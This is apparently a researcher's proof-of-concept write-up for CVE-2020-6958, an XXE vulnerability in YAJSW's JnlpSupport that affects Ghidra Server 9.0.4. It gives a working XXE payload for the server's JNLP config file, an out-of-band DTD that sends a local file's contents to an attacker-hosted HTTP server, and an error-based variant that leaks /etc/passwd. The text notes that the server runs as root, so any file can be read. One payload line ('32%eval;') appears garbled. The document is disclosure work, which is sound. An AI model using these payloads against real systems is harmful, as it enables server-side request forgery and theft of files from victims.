

Proof of concept exploit - XXE vulnerability in YAJSW’s JnlpSupport affects Ghidra Server

Currently known as CVE-2020-6958:
https://nvd.nist.gov/vuln/detail/CVE-2020-6958

Start by creating an XML file with an XXE payload.

	exploit_conf.jnlp:

```xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM
"http://127.0.0.1:8000/vulnerable">
]>
<foo>
&xxe;
</foo>
<jnlp spec="9">
</jnlp>

```

This represents a very basic XXE payload which will attempt to connect to the localhost server on port 8000, with a GET request for resource "vulnerable".

To start up the localhost server:
  
```bash

$ python -m SimpleHTTPServer

```

Now, modify the “WRAPPER_CONF” in ghidraSvr script to the path of "exploit_conf.jnlp":



Start ghidraSvr:

```bash
$ sudo ./ghidraSvr start
```


It is clear that there is an XXE vulnerability present and can also be used to perform SSRF (Server Side Request Forgery) which means tricking the server into making HTTP requests to different resources on the internet this including other XML files. This exploit has proved to be successful against Ghidra version 9.0.4, the latest release at the moment of writing. 

File exfiltration is also possible by exploiting this vulnerability. An article from PortSwigger [1]  demonstrates how this can be achieved by making the victim include remotely hosted XML files. Adapted to Ghidra, it would mean that the JNLP configuration file (“exploit_conf.jnlp”) would have the following content:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://127.0.0.1:8000/dtd.xml">
%xxe;
]>
<foo></foo>
```

Meanwhile, the attacker’s file hosted at "http://127.0.0.1:8000/dtd.xml" (could be any reachable IP address or domain) will contain:

```
<!ENTITY % file SYSTEM "file:///tmp/testfile.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM ’http://127.0.0.1:8000/?x=%file;’>">
32%eval;
%exfiltrate;
```

The file at "/tmp/testfile.txt" contains the string "FileExfiltrationIsWorking".

With the HTTP server running on localhost port 8000, ghidraSvr is again run and the results
can be seen below:


The configuration file on the target host is able to make ghidraSvr retrieve data from a different machine, including other XML definitions. This makes possible for attackers to change the payloads remotely, without requiring to trick the victim more than once to change the configuration. 

In the example above, the XML document will import the remote definitions which in this case make Ghidra Server load the contents of the "/tmp/testfile.txt" and send them to the same server using an HTTP Get Request. This method of file exfiltration is also called Out-of-Band (OOB) due to the medium it uses to transport data.

What makes this exploit particularly dangerous for Ghidra users is that the ghidraSvr requires administrator (or root) privileges in order to run. This aspect gives the attacker the possibility to retrieve any file on the system, thus completely compromising the confidentiality of the target.

It must be noted that a limitation of this out-of-band approach is the fact that the URL through which data gets exfiltrated might get corrupted with invalid, unsupported characters from the loaded files.

An example is with the "/etc/passwd" file which appears to cause an exception: "java.net.MalformedURLException: Illegal character in URL". This is shown in the output of ghidraSvr prompt and proves the fact that this way of exfiltrating data has a limit.

An alternative for data exfiltration is provided in the same article on PortSwigger [1] and relies on the error outputs in order to redirect the content of the files. It is possible therefore to use externally defined entities (using a remotely hosted file like the "dtd.xml" above) in order to output contents to the console.

For the exploit to work, the following will represent the content of "exploit_conf.jnlp":

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://127.0.0.1:8000/dtd.xml">
%xxe;
%error;
]>
<foo></foo>
```

Meanwhile, the remotely hosted "dtd.xml" will contain:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM ’file:///nonexistent/%file;’>">
%eval;
```

After executing the exploit in the same way as before, the result shows the content of "/etc/passwd" this suggesting this can be done with any other file as long as the output is in the console. However, this raises another problem as the attacker will need to redirect that console output to an accessible place since it is presumed that the one starting the "ghidraSvr" is a legitimate user. No efficient and unsuspicious way to perform this could be found during the research (but it does not mean there aren’t).


Reference: https://portswigger.net/web-security/xxe/blind
